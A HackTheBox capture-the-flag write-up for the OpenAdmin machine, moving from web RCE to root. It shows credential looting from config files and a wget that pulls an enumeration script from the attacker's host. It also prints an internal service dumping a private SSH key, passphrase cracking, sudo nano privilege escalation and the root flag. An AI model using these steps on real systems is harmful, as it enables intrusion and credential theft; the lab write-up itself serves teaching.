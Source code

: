 # HTB-OpenAdmin
My write up for the HackTheBox machine: OpenAdmin (10.10.10.171)

OpenAdmin was an easy and enajoyable machine to root.

The machine had a web application vulnerable to RCE, yielding a www-data shell.

The general process was:
Lazy system administrator escalation to user1 > CTF-like to user2 > nopasswd sudo privesc to root. 

## Lets get started!
As usual, I run nMap:
```console
root@kali:~# nmap -sV -T4 -sC 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-14 23:36 EST
Nmap scan report for 10.10.10.171
Host is up (0.0094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Found HTTP on port 80 and SSH on port 22.

Visiting the page, apache shows me Ubuntu landing, so I learn the host is an Ubuntu system. 
I then attempted login via SSH using common creds which did not work.

## Dirb

```console
$ dirb http://10.10.10.171/
```
Running Dirb results in finding /artwork and /music

Looking around on /artwork, I can't see anying interesting.

Looking around on /music, I see a login button that links to OpenNetAdmin version 18.1.1.

Googling opennetadmin 18.1.1 shows it's vulnrable to RCE, I also find the exploit code (located in RCE.sh).

## RCE
Running:

```console
root@kali: ~./RCE.sh http://10.10.10.171/ona/
```

Gives me a shell:

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
## Looting for credentials 
Now I have a restricted shell - I need to escalate privileges.

Grep to loot for passwords in apache config files:
```console
$ grep -nr 'pass' . 
Found a couple passwords:
../../ona/www/local/config/database_settings.inc.php:13:        'db_passwd' => n1nj4W4rri0R!',
./include/adodb5/drivers/adodb-postgres64.inc.php:757:  //      $db->PConnect("host=host1 user=user1 password=secret port=4341");
./include/adodb5/datadict/datadict-oci8.inc.php:111:            $password = isset($options['PASSWORD']) ? $options['PASSWORD'] : 'tiger';
```

I then try to login using the above passwords to the two user accounts on the machine.

```console
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
'n1nj4W4rri0R!' Worked for Jimmy!
```console
root@kali:~# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
Last login: Fri Jan 17 02:27:34 2020 from 10.10.14.49
jimmy@openadmin:~$
```
## Lets get enumerating!

I used LinEnum by running the following on the victim:

```console
jimmy@openadmin:/var/tmp$ wget 10.10.**.**:9000/LinEnum.sh
--2020-01-17 03:52:23--  http://10.10.**.**:9000/LinEnum.sh
Connecting to 10.10.**.**:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.01s   
2020-01-17 03:52:23 (3.66 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

jimmy@openadmin:/var/tmp$ chmod +x LinEnum.sh
```

Looking through, I see apache and a curious file I wasn't able to see before at:

> /var/www/internal/main.php

The contents are:

```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
```
Hmm, I can't execute the .php file or access joanna's home directory - what can I do?

## cURL
I see on the LinEnum report it's listening at port 52846, so cURLing localhost:52846 dumps Joanna's SSH key!
```console
jimmy@openadmin:/var/www/internal$ curl -X POST http://127.0.0.1:52846/main.php -d "username=joanna"
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
## Password cracking!

Now it's time to ask John.
```console
root@kali:~/Documents/OpenadminWriteup# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsahash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (?)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-01-17 00:19) 0.2976g/s 4268Kp/s 4268Kc/s 4268KC/sa6_123..*7¡Vamos!
Session completed
```
John cracks the password: 

> bloodninjas

SSH into joanna's account:
```console
root@kali:~/Documents/OpenadminWriteup# ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
```

## Final PrivEsc

Check what Joanna can run without supplying a password:
```console
joanna@openadmin:~$ sudo -l
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Joanna can use nano, so running:

```console 
joanna@openadmin:~$ sudo -u root nano /opt/priv
```

Gives me nano as root, CTRL-R + CTRL-X allows me to execute whatever I like with my new found privileges!

[In Nano]
```console
Command to execute: id 

uid=0(root) gid=0(root) groups=0(root)

Command to execute: cat /root/root.txt

2f907ed450b361b2c2bf4e8795d5b561
```

## Finished, thanks for reading!
I've prepared writeups for many machines, feel free to check back or ask for help!

